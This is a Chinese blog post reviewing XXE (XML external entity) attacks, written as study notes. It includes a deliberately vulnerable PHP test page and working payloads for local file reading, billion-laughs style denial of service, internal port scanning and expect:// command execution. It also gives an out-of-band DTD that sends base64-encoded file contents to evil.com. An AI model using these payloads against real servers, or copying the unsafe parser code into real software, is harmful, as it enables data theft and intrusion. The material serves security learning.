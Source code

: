 ```yaml
---
layout: post
title: "XML实体攻击回顾"
tags: [security,web]
---
```



XML实体攻击已经是一个很老的技术了，这里仅对学习的过程做一个记录。

{% highlight php %}
<form method="POST" action="">
	<textarea name="keyword" value="" style="width: 500px; height: 300px"></textarea>
	<input type="submit" value="submit">
</form>

<?php
$keyword = $_POST['keyword'];
$xml_obj = simplexml_load_string($keyword);
var_dump($xml_obj);
{% endhighlight %}

上面这段代码用于XXE实体攻击的练习，你可以将其保存至你的环境下用于测试。（记得删除 :P）

XML讲解可以参考w3schools的教程-[XML](http://www.w3schools.com/xml/)。

这里简单说一下XML中的实体类型，大致有下面几种：

* 字符实体
* 命名实体
* 外部实体
* 参数实体

除参数实体外，其它实体都以字符（&）开始，以字符（;）结束。常规实体有：`&apos;（'）`、`&amp;（&）`、`&quot;（"）`、`&lt;（<）`、`&gt;（>）`。

**字符实体**类似html中的实体编码，形如：`&#97;（十进制）`或者`&#x61;（十六进制）`。

**命名实体**可以说成是变量声明，命名实体只能声明在DTD或者XML文件开始部分（<!DOCTYPE>语句中）。如下面代码所示：

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x "First Param!">
        <!ENTITY y "Second Param!">
    ]>
    <root><x>&x;</x><y>&y;</y></root>

**外部实体**用于加载外部文件的内容。（XXE攻击主要利用此实体）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPe root [
        <!ENTITY outfile SYSTEM "outfile.xml">
    ]>
    <root><outfile>&outfile;</outfile></root>

**参数实体**用于DTD和文档的内部子集中。与一般实体相比它以字符（%）开始，以字符（;）结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。（XXE攻击常结合利用参数实体进行数据回显）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % param1 "Hello">
        <!ENTITY % param2 " ">
        <!ENTITY % param3 "World">
        <!ENTITY dtd SYSTEM "combine.dtd">
        %dtd;
    ]>
    <root><foo>&content</foo></root>
    
combine.dtd中的内容为：

    <!ENTITY content "%param1;%param2;%param3;">
    
上面combine.dtd中定义了一个基本实体，引用了3个参数实体：

    %param1;，%param2;，%param3;。

解析后`<foo>...</foo>`中的内容为`Hello World`。

XML实体攻击主要利用了XML实体中的外部实体结合各种协议来读取服务器上的数据，在DTD文件中的参数实体声明时能够引用其他参数实体的值，因此在XXE攻击回显遇到困难时会用到。

### * 简单文件读取

因为可以进行外部实体加载，在XXE攻击中常用来进行本地文件读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "file://localhost/c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
![]()

在使用`file://`协议时，有以下几种格式：

    * Linux
    file:///etc/passwd
    
    * Windows
    file:///c:/windows/win.ini
    file://localhost/c:/windows/win.ini
    （下面这两种在某些浏览器里是支持的）
    file:///c|windows/win.ini
    file://localhost/c|windows/win.ini
    
除了使用`file://`协议进行文件读取外，如果XML文档是用PHP进行解析的，那么还可以使用`php://filter`协议来进行读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "php://filter/resource=c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
### * DoS攻击

因为解析器会解析文档中的所有实体，因此如果实体声明层层嵌套的话，在一定数量上可以对服务器器造成DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x1 "CPU Consuming Task!">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;&x2;">
        ...
        <!ENTITY x100 "&x99;&x99;&x99;...">
    ]>
    <root><foo>&x100;</foo></root>

嵌套实体声明曾指数增长，可能造成对服务器的DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY dos SYSTEM "/dev/zero">
    ]>
    <root></root>
    
加载一个不稳定的文件描述也可能产生DoS。

### * 端口扫描

加载外部DTD时有两种加载方式，一种为私有`private`，第二种为公告`public`。

私有类型DTD加载：

    <!ENTITY private_dtd SYSTEM "DTD_location">
    
公共类型DTD加载：

    <!ENTITY public_dtd PUBLIC "DTD_name" "DTD_location">
    
在公共类型DTD加载的时候，首先会使用`DTD_name`来检索，如果无法找到，则通过`DTD_location`来寻找此公共DTD。利用`DTD_location`，在一定的环境下可以用来做内网探测。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY portscan SYSTEM "http://localhost:3389">
    ]>
    <root><foo>&portscan;</foo></root>
    
因解析器种类不同，所以针对XXE攻击进行端口扫描需要一个合适的环境才能够实现，例如：有明显的连接错误信息。

### * 利用DTD进行数据回显

当利用XXE攻击进行文件读取时经常因为没有回显而显得鸡肋，这个时候就可以结合参数实体的特殊性，加载一个外部DTD来进行回显。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/windows/win.ini">
        <!ENTITY % dtd SYSTEM "http://192.168.1.100:8000/evil.dtd">
        %dtd;
        %send;
    ]>
    <root></root>
    
其中`evil.dtd`的内容如下：

    <!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://evil.com/?content=%file;'>">
    %payload;
    
在DTD文件中声明了参数实体`payload`，其值是一个实体参数声明，因为是在DTD里面，所以可以引用上文的`%file;`参数实体，`%file;`参数实体为`c:/windows/win.ini`文本的内容。最后在原XML里引用DTD中的参数实体，此时就可以讲本地文件读取的内容通过HTTP发送出去（为了让请求的URL有效，这里对使用了`php://filter`协议，并将内容使用base64进行了编码）。

![]()

此方法针对数据不回显的情况及其有用。

### * 远程命令执行

当然了，除了文件读取和DoS外，某些情况下还能进行RCE。例如在PHP开启了PECL上的Expect扩展时，就能使用`expect://`协议来执行命令。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "expect://dir .">
    ]>
    <root><foo>&content;</foo></root>
    
利用XXE攻击时需要结合实际环境才能发挥出其威力。:D

### 参数

* [http://www.ibm.com/developerworks/cn/xml/x-entities/](http://www.ibm.com/developerworks/cn/xml/x-entities/)
* [https://www.youtube.com/watch?v=eHSNT8vWLfc](https://www.youtube.com/watch?v=eHSNT8vWLfc)
* [http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx](http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx)
* [http://en.wikipedia.org/wiki/File_URI_scheme](http://en.wikipedia.org/wiki/File_URI_scheme)

